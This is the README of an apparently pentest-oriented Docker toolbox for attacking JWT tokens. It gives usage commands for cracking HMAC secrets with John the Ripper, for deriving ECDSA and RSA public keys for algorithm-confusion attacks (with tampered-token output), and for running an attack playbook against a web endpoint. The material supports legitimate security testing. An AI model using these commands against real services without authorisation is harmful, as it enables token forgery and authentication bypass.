 # 💻 JWT toolbox

[![Build and deploy the toolbox image](https://github.com/righettod/toolbox-jwt/actions/workflows/build_docker_image.yml/badge.svg?branch=main)](https://github.com/righettod/toolbox-jwt/actions/workflows/build_docker_image.yml) ![MadeWitVSCode](https://img.shields.io/static/v1?label=Made%20with&message=VisualStudio%20Code&color=blue&?style=for-the-badge&logo=visualstudio) ![MadeWithDocker](https://img.shields.io/static/v1?label=Made%20with&message=Docker&color=blue&?style=for-the-badge&logo=docker) ![AutomatedWith](https://img.shields.io/static/v1?label=Automated%20with&message=GitHub%20Actions&color=blue&?style=for-the-badge&logo=github)

## 🎯 Description

The goal of this image is to provide a ready-to-use toolbox with different scripts having for the objective to perform different kinds of attacks against [JWT](https://jwt.io/) tokens.

💡 Indeed, some existing scripts require specific runtime/package/etc. so the goal is to have a quick ready-to-use sandbox to execute them to obtain crafted JWT token.

## 📦 Build

Use the following set of command to build the docker image of the toolbox:

```bash
git clone https://github.com/righettod/toolbox-jwt.git
cd toolbox-jwt
docker build . -t righettod/toolbox-jwt
```

💡 The image is build every week and pushed to the GitHub image repository. You can retrieve it with the following command:

`docker pull ghcr.io/righettod/toolbox-jwt:main`

## 🤔 Usage

Use the following command to create a container of the toolbox:

```bash
docker run --rm -it ghcr.io/righettod/toolbox-jwt:main /bin/zsh
# From here, use one of the provided script...
```

## 💡 Offline brute force operation against a HMAC secret

To perform an offline brute force operation against a HMAC secret, use one of these [JohnTheRipper packages](https://github.com/openwall/john-packages).

💻 Usage:

```bash
john tokens.txt --wordlist=rockyou.txt --rules=best64 --format="HMAC-SHA256"
john tokens.txt --show
```

## 📋 Content

### Script 'generate-jwt-ecdsa-derivated-public-keys.rb'

> **Note**: Author of the script is the [PentesterLab](https://blog.pentesterlab.com/exploring-algorithm-confusion-attacks-on-jwt-exploiting-ecdsa-23f7ff83390f) team ❤.

Script to generate derivated **ECDSA** public keys from a JWT ECDSA signed token. To goal is to test exposure to algorithm confusion attacks on token using ECDSA key pair.

💻 Usage:

`ruby generate-jwt-ecdsa-derivated-public-keys.rb "JWT_ECDSA_SIGNED_TOKEN"`

💻 Example:

```bash
# Once in the bash of the toolbox
ruby generate-jwt-ecdsa-derivated-public-keys.rb "eyJ0eXA..."
[+] Key:
-----BEGIN PUBLIC KEY-----
MFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAE6mWiWnAqBhDvAWwyiM7+STTq0Csi
spjd61v7AtpvgKMyOHVMxMQ6yyrjVKp/syHteGSeltXdfEQ0Dlv0tkZQqg==
-----END PUBLIC KEY-----
[+] Key:
-----BEGIN PUBLIC KEY-----
MFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAE7zuf4prcB/qW4AL7d20LSb99Zwwl
hRSCnHTrpnHUnXoqZVAGwCNpYSJf1rpjZQocwwEL016+OuspiQ67N9EDoA==
-----END PUBLIC KEY-----
```

### Script 'generate-jwt-rsa-derivated-public-keys.sh'

> **Note**: Author of the tool used by the script is the [Silent Signal](https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/) team ❤.

Script to generate derivated **RSA** public keys from a JWT RSA signed token. To goal is to test exposure to algorithm confusion attacks on token using RSA key pair.

💻 Usage:

`bash generate-jwt-rsa-derivated-public-keys.sh "JWT_RSA_SIGNED_TOKEN_1" "JWT_RSA_SIGNED_TOKEN_2"`

💻 Example:

```bash
# Once in the bash of the toolbox
bash generate-jwt-rsa-derivated-public-keys.sh "eyJ0eXA..." "eyJ0eXA..."
[*] GCD:  0x6b
[*] GCD:  0xd7b8aa3...
[+] Found n with multiplier 1  :
 0xd7b8aa...
[+] Written to d7b8aa3fc15ccb45_65537_x509.pem
[+] Tampered JWT: b'eyJ0eXAiOiJ...'
[+] Written to d7b8aa3fc15ccb45_65537_pkcs1.pem
[+] Tampered JWT: b'eyJ0eXAiOiH...'
==============================================================
Here are your JWT's once again for your copypasting pleasure
==============================================================
eyJ0eXAiOiJKV1Qi...
eyJ0eXAiOiJKV1Qj...
```

### Script 'apply-jwt-ticarpi-attack-playbook.sh'

Script to test an web service against the [TICARPI attack playbook](https://github.com/ticarpi/jwt_tool/wiki/Attack-Methodology) ❤.

💻 Usage:

`bash apply-jwt-ticarpi-attack-playbook.sh "ENDPOINT_FULL_URL" "CANARY_WORD" "VALID_JWT_TOKEN"`

📍 The **canary word** is a word that must be present in the HTTP response when the JWT token is accepted (case-sensitive).

💬 The JWT token is added into this header `Authorization: Bearer $TOKEN`. Edit the script to change its location if needed.

💡 Pipe the command above with ` | grep --color=always -F "Response Code: 200"` to display only requests for which the JWT token was accepted.

💻 Example:

```bash
# Once in the bash of the toolbox
bash apply-jwt-ticarpi-attack-playbook.sh "https://righettod.eu/api/profile" "righettod" "eyJ0eXA..."
...
```

## 🤝 Sources & credits

* <https://blog.pentesterlab.com/exploring-algorithm-confusion-attacks-on-jwt-exploiting-ecdsa-23f7ff83390f>
* <https://github.com/silentsignal/rsa_sign2n>
* <https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/>
* <https://github.com/ticarpi/jwt_tool>
* <https://github.com/ticarpi/jwt_tool/wiki>
* <https://github.com/Sjord/jwtcrack>
* <https://www.openwall.com/john/>
* <https://github.com/openwall/john>
* <https://gist.github.com/pich4ya/f76280b7a6af67a9adf740f3ee547689>
* <https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases>
* <https://www.javainuse.com/jwtgenerator>
* <https://jwt.io/>
* <https://github.com/openwall/john-packages>
